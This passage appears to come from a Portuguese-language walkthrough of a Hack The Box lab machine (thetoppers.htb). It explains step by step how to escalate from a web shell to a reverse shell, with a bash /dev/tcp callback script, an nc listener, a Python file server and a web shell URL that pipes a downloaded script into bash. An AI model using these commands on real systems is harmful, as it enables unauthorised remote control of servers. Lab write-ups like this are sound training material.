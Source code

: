 > O "controle remoto" (web shell) é bom para executar comandos simples, mas para um controle mais completo, queremos uma "linha direta" (reverse shell) para o servidor. Preparamos nosso telefone (listener `nc`) para receber a ligação e instruímos o servidor (via web shell) a nos ligar de volta.

### 2. Explicação Técnica (Passo a Passo)

1.  **Obter o IP da Máquina Atacante:** Precisamos do IP da nossa interface de rede que o servidor alvo pode alcançar (ex: `tun0` se estiver usando VPN HTB).
    ```bash
    ifconfig tun0
    ```
    Anote seu IP (ex: `10.10.14.32`).

2.  **Criar o Script de Reverse Shell (na máquina atacante):** Crie um arquivo `shell.sh`.
    ```bash
    #!/bin/bash
    bash -i >& /dev/tcp/{SEU_IP_ATACANTE}/1337 0>&1
    ```
    Substitua `{SEU_IP_ATACANTE}` pelo seu IP.
    *   **Criar o arquivo:**
        ```bash
        echo '#!/bin/bash' > shell.sh
        echo 'bash -i >& /dev/tcp/{SEU_IP_ATACANTE}/1337 0>&1' >> shell.sh
        ```

3.  **Iniciar um Listener `nc` (na máquina atacante):**
    ```bash
    nc -nvlp 1337
    ```
    Isso escutará na porta 1337 por conexões de entrada.

4.  **Iniciar um Servidor HTTP Simples (na máquina atacante):** Para servir o `shell.sh` ao alvo. Execute isso no diretório onde `shell.sh` está localizado.
    ```bash
    python3 -m http.server 8000
    ```

5.  **Executar o Reverse Shell no Alvo (via web shell):**
    Usamos o web shell para fazer o servidor baixar e executar nosso `shell.sh`. O comando `curl` baixa o script e o `bash` o executa.

    *   **URL (codificada para o navegador, com o pipe escapado):**
        ```
        http://thetoppers.htb/shell.php?cmd=curl%20{SEU_IP_ATACANTE}:8000/shell.sh\|bash
        ```
        (Substitua `{SEU_IP_ATACANTE}` pelo seu IP).
        **Alternativa (pipe codificado como URL):**
        ```
        http://thetoppers.htb/shell.php?cmd=curl%20{SEU_IP_ATACANTE}:8000/shell.sh%7Cbash
        ```

    *   **O que acontece:**
        1.  O servidor web (`www-data`) executa o comando passado no parâmetro `cmd`.
        2.  Este comando é `curl {SEU_IP_ATACANTE}:8000/shell.sh | bash` (o `\|` ou `%7C` garante que o pipe seja interpretado no servidor alvo).
        3.  O `curl` no servidor alvo baixa o conteúdo do `shell.sh` do seu servidor Python.
        4.  A saída do `curl` (o script) é enviada via pipe (`|`) para `bash` no servidor alvo.
        5.  `bash` no servidor alvo executa o script, que tenta se conectar de volta ao seu listener `nc` na porta 1337.
